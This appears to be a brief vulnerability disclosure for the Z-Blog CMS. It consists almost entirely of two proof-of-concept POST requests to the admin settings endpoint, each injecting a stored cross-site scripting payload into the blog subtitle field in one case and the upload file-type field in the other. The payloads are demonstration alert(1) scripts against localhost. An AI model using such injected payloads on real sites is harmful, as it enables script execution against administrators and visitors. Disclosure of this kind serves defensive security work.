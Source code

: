 POC1
----

    post_url：http://localhost/z-blog/zb_system/cmd.php?act=SettingSav&token=2c7ca9a4c1c3d856e012595ca878564f

    post_data:

    ZC_BLOG_HOST=http%3A%2F%2Flocalhost%2Fz-blog%2F&ZC_PERMANENT_DOMAIN_ENABLE=&ZC_PERMANENT_DOMAIN_WITH_ADMIN=&ZC_BLOG_NAME=admin&ZC_BLOG_SUBNAME=Good%20Luck%20To%20You!tluf3%22%3e%3cscript%3ealert(1)%3c%2fscript%3euk095&ZC_BLOG_COPYRIGHT=Copyright+Your+WebSite.Some+Rights+Reserved.&ZC_TIME_ZONE_NAME=Asia%2FShanghai&ZC_BLOG_LANGUAGEPACK=zh-cn&ZC_UPLOAD_FILETYPE=jpg%7Cgif%7Cpng%7Cjpeg%7Cbmp%7Cpsd%7Cwmf%7Cico%7Crpm%7Cdeb%7Ctar%7Cgz%7Csit%7C7z%7Cbz2%7Czip%7Crar%7Cxml%7Cxsl%7Csvg%7Csvgz%7Crtf%7Cdoc%7Cdocx%7Cppt%7Cpptx%7Cxls%7Cxlsx%7Cwps%7Cchm%7Ctxt%7Cpdf%7Cmp3%7Cmp4%7Cavi%7Cmpg%7Crm%7Cra%7Crmvb%7Cmov%7Cwmv%7Cwma%7Cswf%7Cfla%7Ctorrent%7Capk%7Czba%7Cgzba&ZC_UPLOAD_FILESIZE=2&ZC_DEBUG_MODE=&ZC_GZIP_ENABLE=&ZC_SYNTAXHIGHLIGHTER_ENABLE=1&ZC_CLOSE_SITE=&ZC_DISPLAY_COUNT=10&ZC_DISPLAY_SUBCATEGORYS=1&ZC_PAGEBAR_COUNT=10&ZC_SEARCH_COUNT=20&ZC_MANAGE_COUNT=50&ZC_COMMENT_TURNOFF=&ZC_COMMENT_AUDIT=&ZC_COMMENT_REVERSE_ORDER=&ZC_COMMENTS_DISPLAY_COUNT=100&ZC_COMMENT_VERIFY_ENABLE=

POC2
----

    post_data:

    ZC_BLOG_HOST=http://localhost/z-blog/&ZC_PERMANENT_DOMAIN_ENABLE=&ZC_PERMANENT_DOMAIN_WITH_ADMIN=&ZC_BLOG_NAME=admin&ZC_BLOG_SUBNAME=Good+Luck+To+You!&ZC_BLOG_COPYRIGHT=Copyright+Your+WebSite.Some+Rights+Reserved.&ZC_TIME_ZONE_NAME=Asia/Shanghai&ZC_BLOG_LANGUAGEPACK=zh-cn&ZC_UPLOAD_FILETYPE=jpg|gif|png|jpeg|bmp|psd|wmf|ico|rpm|deb|tar|gz|sit|7z|bz2|zip|rar|xml|xsl|svg|svgz|rtf|doc|docx|ppt|pptx|xls|xlsx|wps|chm|txt|pdf|mp3|mp4|avi|mpg|rm|ra|rmvb|mov|wmv|wma|swf|fla|torrent|apk|zba|gzbauckek"><script>alert(1)</script>ekkgh&ZC_UPLOAD_FILESIZE=2&ZC_DEBUG_MODE=&ZC_GZIP_ENABLE=&ZC_SYNTAXHIGHLIGHTER_ENABLE=1&ZC_CLOSE_SITE=&ZC_DISPLAY_COUNT=10&ZC_DISPLAY_SUBCATEGORYS=1&ZC_PAGEBAR_COUNT=10&ZC_SEARCH_COUNT=20&ZC_MANAGE_COUNT=50&ZC_COMMENT_TURNOFF=&ZC_COMMENT_AUDIT=&ZC_COMMENT_REVERSE_ORDER=&ZC_COMMENTS_DISPLAY_COUNT=100&ZC_COMMENT_VERIFY_ENABLE=